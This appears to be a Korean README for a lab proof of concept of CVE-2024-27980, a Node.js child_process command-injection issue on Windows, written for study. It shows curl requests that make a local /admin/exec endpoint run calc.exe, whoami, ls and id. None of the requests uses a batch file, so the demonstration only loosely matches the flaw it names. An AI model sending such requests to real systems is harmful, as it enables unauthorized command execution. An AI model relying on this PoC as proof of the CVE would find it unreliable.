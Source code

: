 # CVE-2024-27980 - Improper handling of batch file extensions in Node.js child_process.spawn()

## 요약
- **CVE 번호**: CVE-2024-27980
- **취약점 설명**: Node.js의 `child_process.spawn()` 및 `spawnSync()` 함수가 Windows 환경에서 배치 파일(.bat) 확장자 처리를 부적절하게 하여, `shell: false` 옵션을 사용했음에도 명령어 주입이 발생할 수 있다.
- **영향 받는 버전**: Node.js 18.x, 20.x, 22.x 릴리스 라인 (Windows 환경)
- **취약점 유형**: Command Injection
- **PoC 방식**: `shell: false` 설정 상태에서도 명령어 실행이 가능함을 확인


## 환경 구성 및 실행
- 테스트 서버는 Node.js 20 버전을 사용하여 Docker를 구성한다.
- `http://localhost:3000/admin/exec` 에 POST 요청을 보내면서 명령어를 실행한다.

### 환경 요구사항
- Windows OS (Docker Desktop 설치)
- Node.js 설치 (20.x 버전)
- Git Bash, PowerShell 사용

아래는 docker 환경 구축을 하는 방법이며, 사진은 해당 결과물이다.
```
docker-compose build --no-cache
```
![image](https://github.com/user-attachments/assets/b1266083-393e-4671-af16-788d5efdf557)
<br>
```
docker-compose up -d
```
![image](https://github.com/user-attachments/assets/587fdcf7-c68c-48d6-90f1-1e01fe0c7cb8)

## 결과
### [윈도우 환경] 
- Docker 컨테이너는 리눅스 기반으로 동작하기 때문에, Windows 전용 프로그램(calc.exe 등)은 실행되지 않는다.
- 하지만, 실제 windows 환경에서는 관련 명령어 시도가 가능한 것을 확인할 수 있다. (node 설치 필요) 아래 과정을 통해 프로그램 실행이 가능한 것을 확인할 수 있다. (calc.exe 출력)

1. ../src 경로에서 `node app.js` 실행
2. 아래 명령어 입력
```
curl -X POST http://localhost:3001/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd": "calc.exe", "args": []}'
```
실제 계산기 프로그램이 자동으로 실행되는 것을 확인할 수 있다.

### [Docker 환경]
리눅스 기본 명령어인 `ls`, `id`, `whoami` 등을 curl 명령어로 요청을 보내며 PoC를 진행한다.
아래는 실행 명령어와 해당 명령어를 입력했을 때 출력된 결과이다.

1. whoami 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"whoami","args":[]}'
```
![image](https://github.com/user-attachments/assets/f2fc8d40-396c-4648-bcec-312ee34fa681)

2. ls 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d "{\"cmd\":\"ls\",\"args\":[\"-l\"]}"
```
![image](https://github.com/user-attachments/assets/b4b75a31-ea85-4173-b0e4-8db37d9ba988)

3. id 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"id","args":[]}'
```
![image](https://github.com/user-attachments/assets/61b84ab2-60e3-40c1-81c1-e5ceec0f2820)

위 curl 명령어를 통해 실행한 결과는, 터미널에서 직접 해당 명령어들을 입력했을 때 출력되는 결과와 동일함을 확인할 수 있다.

## 정리
- CVE-2024-27980은 Windows 환경에서 child_process.spawn() 및 spawnSync()가 확장자 자동 처리 과정에서 명령어 주입을 방지하지 못해 발생하는 취약점이다.
- `shell: false` 설정만으로는 Windows 환경에서 완벽한 명령어 검증이 되지 않으며, 사용자가 입력한 명령어를 통해 프로그램 실행이 가능해질 수 있다.
- PoC 결과, Docker 리눅스 컨테이너에서는 리눅스 기본 명령어 실행이 가능했으며, Windows 로컬 환경에서는 calc.exe 실행을 통해 프로그램 실행이 가능함을 확인하였다.
- 해당 취약점을 방지하기 위해 Node.js를 최신 버전(v20.15.1 이상)으로 업데이트하고, 사용자 입력값에 대한 엄격한 검증이 필요하다

---
## 참고
https://nodejs.org/en/blog/vulnerability/july-2024-security-releases
https://nvd.nist.gov/vuln/detail/CVE-2024-27980
https://knvd.krcert.or.kr/detailSecNo.do?IDX=6235
